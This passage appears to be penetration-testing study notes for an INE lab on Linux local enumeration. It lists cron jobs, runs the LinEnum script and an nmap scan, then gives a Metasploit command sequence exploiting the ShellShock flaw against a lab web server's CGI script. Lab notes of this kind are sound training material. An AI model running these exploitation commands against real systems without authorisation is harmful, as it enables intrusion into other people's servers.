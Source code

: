 - Show cron jobs for the current user

```bash
crontab -l
```

## Automating Local Enum

> 🔬 INE LAB
>
> - Target IP: `192.19.208.3`
> - Automation Tools:
>   - [LinEnum - rebootuser](https://github.com/rebootuser/LinEnum)
>   - Metasploit Framework

**`LinEnum`** - bash script that *automates common Linux local enumeration*

```bash
./LinEnum.sh -s -k keyword -r report -e /tmp/ -t
```

### Enumeration & Exploitation

```bash
# Target Apache/ShellShock vuln
nmap -sV 192.19.208.3
	80/tcp open  http  Apache httpd 2.4.6 ((Unix))
```

```bash
service postgresql start && msfconsole -q
search shellshock
use exploit/multi/http/apache_mod_cgi_bash_env_exec
setg RHOSTS 192.19.208.3
setg RHOST 192.19.208.3
set TARGETURI /gettime.cgi
run
```

![](.gitbook/assets/image-20230427224255144.png)
